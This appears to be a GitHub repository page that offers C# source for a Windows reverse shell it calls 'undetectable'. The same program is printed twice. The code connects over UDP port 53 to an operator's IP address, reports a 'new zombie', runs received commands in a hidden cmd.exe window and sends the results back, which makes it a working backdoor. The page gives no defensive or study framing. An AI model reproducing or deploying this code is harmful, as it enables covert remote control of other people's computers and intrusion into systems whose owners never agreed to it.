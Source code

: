 # reverse-shell-csharp
UNDETECTABLE Reverse Shell with C# by Windows!

<code>
using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;
using System;
using System.Collections.Generic;
using System.Linq;

namespace ProcRevShell
{
	public class Program
	{
		public static void Main(string[] args)
		{
			UdpClient udpClient = new UdpClient(11000);
			try{
				udpClient.Connect("111.111.1.111", 53); // Write your ip but don't change the port!

				Byte[] sendBytes = Encoding.ASCII.GetBytes("New zombie connected !\n");
				udpClient.Send(sendBytes, sendBytes.Length);
				IPEndPoint RemoteIpEndPoint = new IPEndPoint(IPAddress.Any, 0);
				while(true){
					Byte[] receiveBytes = udpClient.Receive(ref RemoteIpEndPoint);
					string returnData = Encoding.ASCII.GetString(receiveBytes);

					Console.WriteLine("Received command from " + RemoteIpEndPoint.Address.ToString());

					ProcessStartInfo processInfo;
					Process process;

					processInfo = new ProcessStartInfo("cmd.exe", "/c " + returnData.ToString());
					processInfo.CreateNoWindow = true;
					processInfo.UseShellExecute = false;
					processInfo.RedirectStandardError = true;
					processInfo.RedirectStandardOutput = true;

					process = Process.Start(processInfo);
					process.WaitForExit();

					string output = process.StandardOutput.ReadToEnd();
					string error = process.StandardError.ReadToEnd();

					int exitCode = process.ExitCode;

					Console.WriteLine(output);

					Byte[] outputtobytes = Encoding.ASCII.GetBytes(output);

					udpClient.Send(outputtobytes, outputtobytes.Length);

				}
				
				udpClient.Close();
			}
			catch (Exception e ) {
				Console.WriteLine(e.ToString());
			}
		}
	}
}using System;
using System.Text;
using System.IO;
using System.Diagnostics;
using System.ComponentModel;
using System.Linq;
using System.Net;
using System.Net.Sockets;
using System;
using System.Collections.Generic;
using System.Linq;

namespace ProcRevShell
{
	public class Program
	{
		public static void Main(string[] args)
		{
			UdpClient udpClient = new UdpClient(11000);
			try{
				udpClient.Connect("111.111.1.111", 53); // Write your ip but don't change the port!

				Byte[] sendBytes = Encoding.ASCII.GetBytes("New zombie connected !\n");
				udpClient.Send(sendBytes, sendBytes.Length);
				IPEndPoint RemoteIpEndPoint = new IPEndPoint(IPAddress.Any, 0);
				while(true){
					Byte[] receiveBytes = udpClient.Receive(ref RemoteIpEndPoint);
					string returnData = Encoding.ASCII.GetString(receiveBytes);

					Console.WriteLine("Received command from " + RemoteIpEndPoint.Address.ToString());

					ProcessStartInfo processInfo;
					Process process;

					processInfo = new ProcessStartInfo("cmd.exe", "/c " + returnData.ToString());
					processInfo.CreateNoWindow = true;
					processInfo.UseShellExecute = false;
					processInfo.RedirectStandardError = true;
					processInfo.RedirectStandardOutput = true;

					process = Process.Start(processInfo);
					process.WaitForExit();

					string output = process.StandardOutput.ReadToEnd();
					string error = process.StandardError.ReadToEnd();

					int exitCode = process.ExitCode;

					Console.WriteLine(output);

					Byte[] outputtobytes = Encoding.ASCII.GetBytes(output);

					udpClient.Send(outputtobytes, outputtobytes.Length);

				}
				
				udpClient.Close();
			}
			catch (Exception e ) {
				Console.WriteLine(e.ToString());
			}
		}
	}
}
</code>
